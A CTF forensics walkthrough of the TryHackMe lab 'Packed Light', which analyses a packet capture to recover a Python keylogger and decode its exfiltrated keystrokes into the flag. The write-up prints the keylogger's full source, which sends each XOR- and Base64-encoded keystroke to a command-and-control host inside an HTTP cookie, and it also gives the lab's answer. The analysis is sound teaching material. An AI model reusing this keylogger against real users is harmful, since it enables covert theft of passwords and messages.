




# [Packed Light](https://tryhackme.com/room/hh-packedlight-02e5330c)

- Day 4 of Hacker's Holiday. 
- A forensic lab that involves analyzing a PCAP file.



- Download the attachment and unzip it.

```
~/TryHackMe/Hackers_holiday ❯ unzip packed-light-forensics-1784224937659.zip 
Archive:  packed-light-forensics-1784224937659.zip
  inflating: traffic.pcapng       
```
- Open the capture in Wireshark.



- In @0xMia's STORY  he mentioned his laptop is pinging an address on port 8080. Let's see what is running on that port.
- Let's apply the Wireshark filter. 
```
tcp.dstport == 8080
```



- We can see many TCP and HTTP packets. Let's narrow it down to HTTP.

```
tcp.dstport == 8080 and http
```



- The first HTTP request downloads an `updates.py` file. Let's inspect it. Since the traffic uses HTTP rather than HTTPS, we can clearly view it without encryption.
- Right-click on the packet and select Follow > TCP stream.

```
C2_URL = "http://byte-lotus-hotel.thm:8080/"

def getkey():
    p1 = "H0t3lSt@ff0Nly"
    p2 = "K3epS3cr3t!"
    return p1 + p2

def xor(data: bytes, key: bytes) -> bytes:
    return bytes(b ^ key[i % len(key)] for i, b in enumerate(data))

def sendltr(character):
    raw_bytes = character.encode('utf-8')
    encrypted = xor(raw_bytes, getkey().encode('utf-8'))
    
    b64_string = base64.b64encode(encrypted).decode('utf-8')
    
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) ByteLotusClient/1.1",
        "Cookie": f"hotel_sess_state={b64_string}"
    }    
    try:
        requests.get(C2_URL, headers=headers, timeout=0.5)
    except:
        pass

def on_press(key):
    try:
        sendltr(key.char)
    except AttributeError:
        if key == keyboard.Key.space:
            sendltr(" ")
        elif key == keyboard.Key.enter:
            sendltr("\n")

print("[*] Byte Lotus Sync Service started...")
with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```
- This code is a simple keylogger that captures keystrokes, lightly obfuscates them with XOR, Base64-encodes the result, and sends each keystroke to a remote server inside an HTTP cookie.

```
Keyboard Input
      ↓
Capture key
      ↓
XOR encrypt
      ↓
Base64 encode
      ↓
Place in HTTP Cookie
      ↓
Send GET request to C2 server 
```
- This is a simple form of obfuscation and is easy to reverse. Before doing that, we need to extract the encrypted text from the cookie field. For that, I'm going to use Tshark.

```
tshark -r traffic.pcapng -Y http -T fields -e http.cookie

hotel_sess_state=HA==

hotel_sess_state=AA==

hotel_sess_state=BQ==

hotel_sess_state=Mw==

hotel_sess_state=Hg==

hotel_sess_state=ew==

hotel_sess_state=Og==

hotel_sess_state=fA==

hotel_sess_state=Fw==

hotel_sess_state=eQ==

hotel_sess_state=Ow==

hotel_sess_state=Fw==

hotel_sess_state=Pw==

hotel_sess_state=fA==

hotel_sess_state=PA==

hotel_sess_state=Kw==

hotel_sess_state=IA==

hotel_sess_state=eQ==

hotel_sess_state=Jg==

hotel_sess_state=Lw==

hotel_sess_state=Fw==

hotel_sess_state=eA==

hotel_sess_state=Pg==

hotel_sess_state=LQ==

hotel_sess_state=Gg==

hotel_sess_state=Fw==

hotel_sess_state=MQ==

hotel_sess_state=eA==

hotel_sess_state=PQ==

hotel_sess_state=NQ==
```

- Now remove `hotel_sess_state=` from the output above and keep only the Base64 values. 
- I wrote this simple Python script to decode these characters. 

```
import base64

KEY = b"H0t3lSt@ff0NlyK3epS3cr3t!"

encoded_strings = [
    "HA==",
    "AA==",
    "BQ==",
    "Mw==",
    "Hg==",
    "ew==",
    "Og==",
    "fA==",
    "Fw==",
    "eQ==",
    "Ow==",
    "Fw==",
    "Pw==",
    "fA==",
    "PA==",
    "Kw==",
    "IA==",
    "eQ==",
    "Jg==",
    "Lw==",
    "Fw==",
    "eA==",
    "Pg==",
    "LQ==",
    "Gg==",
    "Fw==",
    "MQ==",
    "eA==",
    "PQ==",
    "NQ==",
]

plaintext = ""

for s in encoded_strings:
    encrypted = base64.b64decode(s)
    decrypted = bytes([encrypted[0] ^ KEY[0]])
    plaintext += decrypted.decode("utf-8", errors="replace")

print("Recovered text:")
print(repr(plaintext))
```
- The script simply decodes each Base64 string, XORs it with the key, and combines the resulting characters to recover the final text.
```
 python3 decode.py 
Recovered text:
'THM{V3r4_1s_w4tch1ng_0veR_y0u}'
```
**FLAG: THM{V3r4_1s_w4tch1ng_0veR_y0u}**
